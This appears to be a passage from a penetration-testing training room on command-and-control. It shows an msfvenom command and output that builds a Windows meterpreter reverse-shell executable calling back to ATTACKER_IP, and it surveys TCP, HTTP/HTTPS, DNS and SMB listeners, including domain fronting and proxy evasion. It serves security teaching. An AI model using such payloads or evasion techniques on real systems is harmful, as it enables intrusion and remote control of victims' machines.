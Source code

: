   

**Getting a Callback**

  

MSFVenom Payload Generation

```shell-session
root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

After generating the windows/meterpreter/reverse_tcp using MSFVenom, we can transfer the payload to a target machine and execute it. After a moment or two, you should receive a callback from the machine.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/1dcc8962d5a595690a9b5ea9c4888dad.png)  

_Callback from the Victim_

Listener Type

As previously mentioned, standard reverse shell listeners are not the only ones that exist; there are many varieties that use many different protocols; however, there are a few common ones that we will cover, these being the following:

**Standard Listener -**Â 

These often communicate directly over a rawÂ TCPÂ orÂ UDPÂ socket, sending commands in cleartext.Â MetasploitÂ has full support for generic listeners.

**HTTP/HTTPS Listeners -**Â 

These often front as some sort of Web Server and use techniques like Domain Fronting or MalleableÂ C2Â profiles to mask aÂ C2Â server. When specifically communicating over HTTPS, it's less likely for communications to be blocked by an NGFW.Â MetasploitÂ has full support forÂ HTTP/HTTPS listeners.

**DNSÂ Listener -**

DNSÂ Listeners are a popular technique specifically used in the exfiltration stage where additional infrastructure is normally required to be set up, or at the very least, a Domain Name must be purchased and registered, and a public NS server must be configured. It is possible to set upÂ DNSÂ C2Â operations inÂ MetasploitÂ with the help of additional tools. For more information, see this "[MeterpreterÂ overÂ DNS](https://2017.zeronights.org/wp-content/uploads/materials/ZN17_SintsovAndreyanov_MeterpreterReverseDNS.pdf)" presentation by Alexey Sintsov and Maxim Andreyanov. These are often very useful for bypassing Network Proxies.

**SMBÂ Listener -**Â 

Communicating viaÂ SMBÂ named pipes is a popular method of choice, especially when dealing with a restricted network; it often enables more flexible pivoting with multiple devices talking to each other and only one device reaching back out over a more common protocol likeÂ HTTP/HTTPS.Â MetasploitÂ has support for Named Pipes.

